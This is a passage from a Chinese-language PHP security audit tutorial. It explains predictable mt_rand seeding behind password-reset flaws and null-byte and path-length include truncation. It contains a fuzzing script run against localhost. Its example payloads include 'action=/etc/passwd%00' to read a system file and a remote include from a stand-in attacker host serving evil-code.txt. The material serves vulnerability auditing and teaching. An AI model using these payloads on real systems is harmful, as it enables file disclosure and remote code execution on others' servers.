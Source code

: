 
当PHP版本到了5.2.1后，通过修改算法修补了奇数和偶数的播种相等的问题，这样也导致了php5.2.0前后导致同一个播种后的mt_rand()的值不一样。比如：

<?php
mt_srand(42);
echo mt_rand();
//php<=5.20 1387371436
//php>5.20 1354439493           
?>
正是这个原因，也要求了我们的exp的运行环境：当目标>5.20时候，我们exp运行的环境也要是>5.20的版本，反过来也是一样。

从上面的测试及分析来看，php<5.26不管有没有定义播种，mt_rand处理的数据都是不安全的。在web应用里很多都使用mt_rand来处理随机的session，比如密码找回功能等等，这样的后果就是被攻击者恶意利用直接修改密码。

很多著名的程序都产生了类似的漏洞如wordpress、phpbb、punbb等等。（在后面我们将实际分析下国内著名的bbs程序Discuz!的mt_srand导致的漏洞）

漏洞审计策略
PHP版本要求：php4 php5<5.2.6
系统要求：无
审计策略：查找mt_srand/mt_rand
特殊字符
其实“特殊字符”也没有特定的标准定义，主要是在一些code hacking发挥着特殊重作用的一类字符。下面就举几个例子：

截断
其中最有名的数大家都熟悉的null字符截断。

include截断
<?php 
include $_GET['action'].".php"; 
?>
提交“action=/etc/passwd%00”中的“%00”将截断后面的“.php”，但是除了“%00”还有没有其他的字符可以实现截断使用呢？肯定有人想到了远程包含的url里问号“?”的作用，通过提交“action=http://www.hacksite.com/evil-code.txt?”这里“?”实现了“伪截断”：），好象这个看上去不是那么舒服那么我们简单写个代码fuzz一下：

<?php
////////////////////
////var5.php代码:
////include $_GET['action'].".php"; 
////print strlen(realpath("./"))+strlen($_GET['action']);  
///////////////////
ini_set('max_execution_time', 0);
$str='';
for($i=0;$i<50000;$i++)
{
        $str=$str."/";

        $resp=file_get_contents('http://127.0.0.1/var/var5.php?action=1.txt'.$str);
        //1.txt里的代码为print 'hi';
        if (strpos($resp, 'hi') !== false){
                print $i;
                exit;
        }
}
?>
经过测试字符“.”、“ /”或者2个字符的组合，在一定的长度时将被截断，win系统和*nix的系统长度不一样，当win下strlen(realpath("./"))+strlen($_GET['action'])的长度大于256时被截断，对于*nix的长度是4 * 1024 = 4096。对于php.ini里设置远程文件关闭的时候就可以利用上面的技巧包含本地文件了。（此漏洞由cloie#ph4nt0m.org最先发现]）
